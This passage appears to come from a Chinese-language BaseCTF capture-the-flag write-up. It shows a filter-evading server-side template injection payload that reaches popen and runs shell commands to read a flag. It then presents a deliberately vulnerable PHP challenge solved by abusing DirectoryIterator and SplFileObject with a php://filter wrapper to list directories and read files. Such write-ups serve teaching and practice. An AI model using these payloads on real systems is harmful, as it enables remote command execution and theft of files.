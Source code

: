 ```Go
BaseCTF{%print(''['_''_cl''ass_''_']['_''_ba''se_''_']['_''_subcla''sses_''_']()[137]['_''_in''it_''_']['_''_glo''bals_''_']['po''pen']('a=`pwd`;a=`substr $a 1 1`;cd $a;cat flag')['rea''d']())%}
```

### [Week4] flag直接读取不就行了

```
<?php
highlight_file('index.php');
# 我把flag藏在一个secret文件夹里面了，所以要学会遍历啊~
error_reporting(0);
$J1ng = $_POST['J'];
$Hong = $_POST['H'];
$Keng = $_GET['K'];
$Wang = $_GET['W'];
$dir = new $Keng($Wang);
foreach($dir as $f) {
    echo($f . '<br>');
}
echo new $J1ng($Hong);
?>
```

我们使用php原生类来查找secret文件夹的内容

```
?K=DirectoryIterator&W=/secret/
```

DirectoryIterator 类提供了一个用于查看文件系统目录内容的简单接口。该类的构造方法将会创建一个指定目录的迭代器。

DirectoryIterator 类会创建一个指定目录的迭代器。当执行到echo函数时，会触发DirectoryIterator类中的 __toString() 方法，输出指定目录里面经过排序之后的第一个文件名

```
<?php
$dir=new DirectoryIterator("/");
foreach($dir as $tmp){
    echo($tmp.'<br>');
    //echo($tmp->__toString().'<br>'); //与上句效果一样
}
```

然后我们使用SplFileObject类用伪协议读取php内容

```
J=SplFileObject&H=php://filter/read=convert.base64-encode/resource=/secret/f11444g.php
```

![image-20240918214047235](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409182140338.png)

https://blog.csdn.net/unexpectedthing/article/details/121780909



## Crypot
